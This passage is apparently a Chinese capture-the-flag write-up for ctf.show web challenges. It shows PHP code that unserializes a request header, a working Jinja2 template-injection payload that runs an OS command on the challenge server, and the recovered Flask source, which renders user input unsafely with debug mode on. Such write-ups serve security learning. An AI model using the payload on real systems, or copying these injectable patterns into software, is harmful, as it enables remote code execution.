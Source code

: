 ```php
$_ip = $_SERVER["HTTP_AAAAAA"];  
unserialize($_ip);

```


### easy_ssti
F12
![](attachments/Pasted%20image%2020230401110342.png)

下载后没用上，直接payload
`http://b74e88b9-a74a-4588-8484-eecc11016779.challenge.ctf.show/hello/{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat app.py').read()}}`

app.py
```python
from flask import Flask 
from flask import render_template_string,render_template,send_file 

app = Flask(__name__) 

@app.route('/') 
def hello(name=None): 
	return render_template('hello.html',name=name) 
	
@app.route('/hello/<name>') 
def hellodear(name): 
	if "ge" in name: 
		return render_template_string('hello %s' % name) 
	elif "f" not in name: 
		return render_template_string('hello %s' % name) 
	else: return 'Nonononon' 
	
@app.route('/app.zip') 
def downloadzip(): 
	path="app.zip" 
	return send_file(path) 
	
if __name__ == '__main__': 
	app.run(host="0.0.0.0", port=5000, debug=True)
```

这个是实际上的app.py和zip包中的有一些不同，会看到开了debug，加上前面用payload找不到flag感觉可能是算pin码，在访问时发现会显示没有这个路径，在templates那里测了一下感觉应该是/的问题
就不想着去编码绕过啥的了，直接用命令写shell脚本来执行命令
